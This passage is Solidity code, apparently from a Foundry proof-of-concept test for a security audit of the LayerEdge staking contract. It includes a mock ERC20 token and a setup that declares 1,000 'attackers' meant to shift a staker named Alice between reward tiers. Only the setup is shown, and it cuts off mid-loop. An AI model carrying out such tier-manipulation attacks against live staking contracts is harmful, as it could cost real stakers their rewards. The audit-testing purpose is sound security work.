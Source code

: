 ```solidity
        require(balanceOf[msg.sender] >= amount, "Insufficient balance");
        balanceOf[msg.sender] -= amount;
        balanceOf[to] += amount;
        emit Transfer(msg.sender, to, amount);
        return true;
    }

    function transferFrom(address from, address to, uint256 amount) external returns (bool) {
        require(balanceOf[from] >= amount, "Insufficient balance");
        require(allowance[from][msg.sender] >= amount, "Insufficient allowance");
        balanceOf[from] -= amount;
        balanceOf[to] += amount;
        allowance[from][msg.sender] -= amount;
        emit Transfer(from, to, amount);
        return true;
    }
}

contract LayerEdgeStakingTest is Test {
    LayerEdgeStaking staking;
    MockERC20 token;
    address alice = address(0x328809Bc894f92807417D2dAD6b7C998c1aFdac6);
    address admin = address(this); // Use test contract as admin
    address[] attackers;
    uint256 constant MIN_STAKE = 3e21; // 3000 tokens with 18 decimals
    uint256 constant INITIAL_STAKERS = 9; // Initial stakers before Alice
    uint256 constant ATTACKER_COUNT = 1000; // Increased attackers for more tier shifts

    function setUp() public {
        token = new MockERC20();
        LayerEdgeStaking implementation = new LayerEdgeStaking();
        ERC1967Proxy proxy = new ERC1967Proxy(
            address(implementation),
            abi.encodeWithSelector(LayerEdgeStaking.initialize.selector, address(token), admin)
        );
        staking = LayerEdgeStaking(payable(address(proxy)));

        // Mint tokens
        token.mint(alice, 1_000_000 * 1e18);
        token.mint(admin, 1_000_000 * 1e18);

        // Setup initial stakers (1 to 9) to position Alice at rank 10
        for (uint160 i = 1; i <= INITIAL_STAKERS; i++) {
            address user = address(uint160(0x1000 + i));
            token.mint(user, 1_000_000 * 1e18);
            vm.startPrank(user);
            token.approve(address(staking), MIN_STAKE);
            staking.stake(MIN_STAKE);
            vm.stopPrank();
        }

        vm.startPrank(alice);
        token.approve(address(staking), MIN_STAKE);
        staking.stake(MIN_STAKE);
        vm.stopPrank();

        for (uint160 i = 1; i <= 9; i++) {
            address user = address(uint160(0x1111000 + i));
            token.mint(user, 1_000_000 * 1e18);
            vm.startPrank(user);
            token.approve(address(staking), MIN_STAKE);
            staking.stake(MIN_STAKE);
            vm.stopPrank();
```